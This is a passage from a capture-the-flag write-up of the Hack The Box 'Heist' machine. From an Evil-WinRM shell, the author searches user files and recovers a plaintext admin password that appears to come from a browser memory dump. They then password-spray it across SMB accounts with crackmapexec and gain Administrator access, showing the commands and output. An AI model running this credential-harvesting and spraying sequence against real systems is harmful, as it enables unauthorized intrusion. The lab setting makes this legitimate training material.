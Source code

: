 Given the parameters found from `login.php` previously, let's try to find if there's any file stores the login data.

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> Select-String -Pattern "login_username" -Path .\*

<SNIP>
          DriverData=C:\Windows\System32\Drivers\DriverData�,�/�� u�u�
O�u�a�u��,�)��\Sessions\1\Windows\ApiPortection�,�&��"C:\Program Files\Mozilla Firefox\firefox.exe"
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=�,�m�����u� b�w�
<SNIP>
```

It contains `admin@support.htb`'s password : `4dD!5}x/re8]FBuZ`
I tried this credential to login page, and it worked!

![](attachments/heist_6.png)

It worked! Let's check if this credential is working on any other accounts.

### Password spray attack

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p '4dD!5}x/re8]FBuZ' --continue-on-success 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
```

